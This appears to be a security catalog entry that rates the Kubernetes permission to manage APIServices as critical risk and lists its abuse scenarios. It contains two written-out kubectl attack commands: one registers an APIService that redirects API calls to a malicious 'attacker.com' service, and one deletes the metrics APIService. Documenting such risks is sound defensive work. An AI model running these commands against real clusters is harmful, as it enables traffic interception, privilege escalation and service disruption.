 ```yaml
---
id: 1046
title: "Manage APIServices"
description: "Grants control over APIServices, which register aggregated API servers. This is highly critical as an attacker can redirect API requests to a malicious server, intercept traffic, escalate privileges, cause denial of service, or exfiltrate information."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                                                            |
| ----------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1046                                                                                                                                                             |
| Name                    | Manage APIServices                                                                                                                                               |
| Risk Category           | Tampering                                                                                                                                                        |
| Risk Level              | {{< risk Critical >}}                                                                                                                                            |
| Role Type               | ClusterRole                                                                                                                                                      |
| API Groups              | apiregistration.k8s.io                                                                                                                                           |
| Resources               | apiservices                                                                                                                                                      |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                                                                         |
| Tags                    | {{< tag "APIServiceManipulation" >}} {{< tag "DenialOfService" >}} {{< tag "InformationDisclosure" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} |

## Description

Grants control over APIServices, which register aggregated API servers. This is highly critical as an attacker can redirect API requests to a malicious server, intercept traffic, escalate privileges, cause denial of service, or exfiltrate information.

## Abuse Scenarios

1. Create a new APIService to redirect API calls to a malicious server.

```bash
kubectl create -f - <<EOF
apiVersion: apiregistration.k8s.io/v1
kind: APIService
metadata:
  name: v1alpha1.attacker.com
spec:
  service:
    name: <malicious-service-name>
    namespace: <malicious-service-namespace>
  group: attacker.com
  version: v1alpha1
  caBundle: <base64-encoded-ca-cert> # CA for the malicious service
  groupPriorityMinimum: 2000 # Higher than core APIs
  versionPriority: 200
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete an existing APIService, disrupting aggregated API functionality.

```bash
kubectl delete apiservice <apiservice-name>
# Example: kubectl delete apiservice v1beta1.metrics.k8s.io

```
